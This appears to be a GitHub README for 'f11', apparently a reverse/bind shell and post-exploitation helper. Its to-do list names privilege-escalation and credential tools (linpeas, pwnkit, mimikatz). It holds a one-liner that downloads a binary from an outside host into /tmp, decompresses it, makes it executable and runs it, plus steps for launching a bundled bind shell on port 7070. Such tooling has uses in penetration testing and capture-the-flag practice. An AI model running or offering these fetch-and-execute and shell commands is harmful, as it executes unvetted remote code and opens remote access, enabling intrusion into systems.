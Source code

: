 # f11
*revshellpal*

### TODO

- linpeas (all peas)
  - other similar enum?
- pwnkit
- mimikatz (windows)
- SUID/SUDO/CAP/
- 


### Oneliner

```bash
curl -sL https://f11snipe.cloud/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
